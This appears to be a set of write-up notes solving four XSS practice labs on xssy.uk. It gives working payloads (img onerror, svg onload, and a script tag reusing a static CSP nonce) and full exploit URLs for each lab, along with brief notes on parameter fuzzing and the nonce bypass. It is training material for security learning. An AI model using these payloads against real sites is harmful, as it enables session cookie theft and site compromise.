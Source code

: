 
### Lab 170: Large App - Basic XSS
- **URL Lab**: https://xssy.uk/lab/170
- **Payload**: 
```html
<img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://jbob7737.xssy.uk/target_37.ftl?name=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

---

### Lab 197: Large App - Non-Sequential
- **URL Lab**: https://xssy.uk/lab/197
- **Payload**: 
```html
<img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://g3xd5j3v.xssy.uk/target_54481.ftl?name=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

---

### Lab 9: Mystery Parameter XSS
- **URL Lab**: https://xssy.uk/lab/9
- **Payload**: 
```html
<svg onload=alert(document.cookie)>
```
- **Full URL**: 
```
https://lxxhujqz.xssy.uk/target.ftl?email=<svg onload=alert(document.cookie)>
```
- **Description**: Fuzzing with https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt & got hidden parameter `email`

---

### Lab 18: CSP - Static Nonce Bypass
- **URL Lab**: https://xssy.uk/lab/18
- **Payload**: 
```html
<script nonce="rAnd0m">alert(document.cookie)</script>
```
- **Full URL**: 
```
https://j4phjo6l.xssy.uk/target.ftl?name=%3Cscript%20nonce=%22rAnd0m%22%3Ealert(document.cookie)%3C%2Fscript%3E
```
- **Description**: Because nonce is static, inject the nonce to script

---